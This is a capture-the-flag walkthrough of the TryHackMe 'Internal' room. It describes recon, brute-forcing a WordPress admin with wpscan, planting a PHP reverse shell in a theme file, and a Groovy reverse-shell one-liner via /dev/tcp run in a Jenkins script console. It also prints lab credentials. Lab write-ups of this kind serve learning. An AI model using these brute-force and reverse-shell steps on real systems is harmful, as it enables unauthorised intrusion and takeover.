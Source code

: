 # Internal

https://tryhackme.com/room/internal

## Tasks

I started this challenge by doing a ```nmap``` to find which ports could have vulnerabilities.

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/f5abcfa1-3230-4475-9687-ca484d099c14" />

Showing nothing too interesting, just ssh and http. So I continued on my normal route and started a gobuster and visited the http site at the same time

Right away viewing the first gobuster results I can see that this is a wordpress site and especially ```/phpmyadmin/``` peaks my interest since that shows me a way to login, I just need to figure out how to login. I also found another login in ```blog/wp-login.php```.

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/0f4c6711-b933-424d-9dd5-7b577a3b62fe" />

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/3142209d-ee00-49a3-9270-70a95971a323" />

So I knew admin was one login, I just put hydra to try to crack it with rockyou.txt but incase it didn't work I began to try other things in the meantime.

I was a bit stuck for a moment since I just tried to google if wordpress had vulnerabilities and what would be suitable for my situation. I found a tool called ```wpscan``` which was designed to find wordpress vulnerabilities so I ran it.

After running the tool and looking at other ways I can use it I found that I can also use it to bruteforce password for the admin login so I tried that ```wpscan — url http://internal.thm/wordpress -U admin -P /usr/share/wordlists/rockyou.txt```

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/50b26e69-0a33-4742-882e-2817fc75cc51" />

So now I have admin login and password, so let's head to the site. I used the same method I had learned previously and went to theme editor to change a site to include a php reverse shell

After changing the 404 file I could find it in ```http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php```

After getting access from reverse shell I used ```python -c 'import pty; pty.spawn("/bin/bash")'``` to give more commands now that I was in I decided to look around directories

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/e202212b-6f4d-4032-9677-e17f58429b67" />

Mindlessly looking around worked and I got aubreanna's login credentials ```aubreanna:bubb13guM!@#123``` and after logging in I found user.txt in aubreannas folder, now to get root access.

After trying to figure out a way to get access I found this

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/3d24e9fe-17db-4f7b-bb56-50905146c17f" />

which peaked my interest and I though of ssh to that ip as aubreanna, I googled and found about ssh tunneling and got this page loaded

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/66e83998-a24f-4ad4-b7d7-6af8a537a1f5" />

Now I decided to run hydra and brute force the admin password, now this took a long time but after a while I finally got the password ```admin : spongebob```

After logging in I looked around and found a ```scripting console``` 

<img style="max-width:100%; height:auto;" alt="image" src="https://github.com/user-attachments/assets/ce9961aa-eac6-4dd4-8d30-cd06bf89d4d3" />

Looking online I found a command I could execute to get access

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/my_ip:1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

And success, I got logged in as jenkins, I decided to visit ```/opt/``` again and found note.txt, where there was root password, wow that was easy...

I did ```su root``` and got access to /root and found the root flag

# Conclusion

This was my hardest challenge yet and it definitely took the most time. I had to use my previous knowledge and learn more, I also had to google quite many things to get forward at certain bits. But atleast I was able to hack the machine.
